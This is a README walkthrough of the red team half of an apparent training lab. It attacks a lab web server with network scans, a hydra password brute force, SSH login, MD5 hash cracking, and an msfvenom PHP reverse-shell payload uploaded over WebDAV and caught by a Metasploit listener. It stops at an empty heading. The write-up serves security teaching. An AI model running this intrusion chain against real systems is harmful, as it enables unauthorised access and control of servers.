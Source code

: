 # Attackers Vs Defenders

# **NETWORK TOPOLOGY**

![network-topology](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/network-topology.PNG)
-----------------------------------------------------------------------------------------------------------------
### *RED TEAM ENVIRONMENT*
![Red-Team](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/Red-Team.PNG)
-----------------------------------------------------------------------------------------------------------------
### *BLUE TEAM ENVIRONMENT*
![Blue-Team](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/Blue-Team.PNG)
-----------------------------------------------------------------------------------------------------------------

# **Red Team - Penetration Test**

- ### Identify the target IP
We need to run a network scan to locate the target IP address.
```
netdiscover -r <IP subnet>
 ```
  ![netdiscover command](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/netdiscover%20command.PNG)
  ![netdiscover](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/netdiscover.PNG)

| IP | Machine |
|:-------------:|:-------------:|
| 192.168.1.1 | Gateway IP, Hyper-V |
| 192.168.1.100 | ELK Server |
| 192.168.1.105 | Capstone, Target Machine |


- ### Scan Target IP
Now we will run a nmap scan to see what services and versions are on the target IP.
```
nmap -sV -v 192.168.1.105
```
![nmap command](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/nmap%20command.PNG)
![nmap-scan service & version](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/nmap-scan%20service%20%26%20version.PNG)
| Port | Service | Version |
|:--:|:--:|:--:|
| Port 22 | SSH | OpenSSH 7.6p1 |
| Port 80 | HTTP | Apache httpd 2.4.29 |

Now that we know an Apache websever is run on HTTP port 80, let's see what a agressive scan will show.
```
namp -A -vvv 192.168.1.105
```
![nmap aggressive scan command](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/nmap%20aggressive%20scan%20command.PNG)
![nmap-vvv-scan](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/nmap-vvv-scan.PNG)

We can see that HTTP port 80 is open and two usernames (hannah and ashton) which may be susceptible to a brute force attack.

- ###  Inspecting the Webserver 
Let's navigate the webserver and take a look.

![webserver](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/webserver.PNG)

In the company blog directory we can see a third username Ryan, who probably have the highest privilege of access as the CEO

![company_blog](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/company_blog.PNG)

In the *company folders* directory, we can see reference to a "*secret_folder*" for documents within this directory, which is now a target for this Penetration Test.

![company-fold_company-culture](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/company-fold_company-culture.PNG)

The *meet_our_team* folder confirms the three users, and each document has references the *secret_folder*.

![meet our team](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/meet%20our%20team.PNG)

![secret-folder_logon](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/secret-folder_logon.PNG)

Ashton's login screen, we need his password to gain access to his *secret_folder*.

- ###  Further Recon
Let's do a vulnerablity scan on the target IP.
```
nmap -A ---script=vuln -vvv 192.168.1.105
```
![nmap vuln scan command](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/nmap%20vuln%20scan%20command.PNG)
![vuln-scan3](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/vuln-scan3.jpg)
![vuln-scan4](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/vuln-scan4.PNG)
![vuln-scan7](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/vuln-scan7.PNG)

Returning from the nmap aggressive scan, we can see vulnerabilities were revealed.
 - Webdav vulnerability.
 - SQL Injection vulnerability across all directories on the webserver.
 - CVE-2017-15710 – Apache httpd vulnerability.
 
 - ###  Brute Forcing
 Now that we have some usernames and a main target (Ashton), using hydra we can attempt to bruteforce the login for the *secret_folder*.
 
 The CEO (Ashton), has a common password let's use the following command to get Ashton's password.
 
 ```
 hydra -l ashton -P /opt/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get "/company_folders/secret_folder"

 ```
![hydra command](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/hydra%20command.PNG)
![hydra bruteforce](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/hydra%20bruteforce.PNG)

- ###  SSH

```
ssh ashton@192.168.1.105
```
 We can gain ssh access into the server using Ashton's credentials.
 
 ![ssh-ashton](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/ssh-ashton.PNG)
 ![Ashton-id](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/Ashton-id.PNG)
 
 - ### Flag
 We find a flag in the root directory.
 ![Flag](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/Flag.PNG)
 
  Using Ashton's credentials we can also login to the webserver, and access the hidden folder.
  
  
  ![webserver ashton login](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/webserver%20ashton%20login.PNG)
  
  
  - ### Password Hash
 
 
  ![connect to corp server](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/connect%20to%20corp%20server.PNG)
  
  Inside this folder is a document with instructions on how connect to the *corp_server*. Also in the document are Ryan's hashed credentials and reference to a webdav directory.
  
  ![personal-note](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/personal-note.PNG)
  
  The hashed md5 password was instantly cracked using Crackstation, revealing the password *linux4u*
  
  ![crackstation](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/crackstation.PNG)
  
  - ### Webdav
  We will use Ryan's credentials to login to the webdav server.
  
  ![ryans login](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/ryans%20login.PNG)
  
  ![webdav](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/webdav.PNG)
  
  - ### Reverse Shell
  - ##### Msfvenom
  Next we will use msfvenom to upload a shell script to webdav, in order to create a reverse shell.
  
  ```
  msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 -f raw -o shell.php
  ```
  
  Create the payload *shell.php* with msfvenom.
  
  ![msfvenom](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/msfvenom.PNG)
  
  - #### Cadaver
  
  ```
  cadaver http://192.168.1.105/webdav
  ```
  
  Using cadaver and Ryan's credentials we accessed webdav, and uploaded the payload to the webdav directory.
  
  ![cadaver](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/cadaver.PNG)
  
  Use the put command.
  
  ![cadaver put-shell](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/cadaver%20put-shell.PNG)
   
  The payload was  delievered
   
  ![webdav shell](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/webdav%20shell.PNG)
  
  - #### Metasploit
  
  ```
  msfconsole
  ```
  
  ```
  use multi/handler
  ```
  
  Now that the payload has been uploadedthe the webdav server. To create the reverse shell, we need to setup a listener using Metasploit.
  
  ![uploaded-shell-webdav](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/uploaded-shell-webdav.PNG)
  
  ![metasploit](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/metasploit.PNG)
  
  After loading the exploit and activating the shell.php we uploaded earlier by clicking on it on the webserver, the target server connected to our listener and launched a         meterpreter session into their system.
  
  ![meterpreter](https://github.com/FRobertAllen/Red-Team-Vs-Blue-Team/blob/main/Images/meterpreter.PNG)
  
  - ### Gaining Interactive Shell
  
  
 
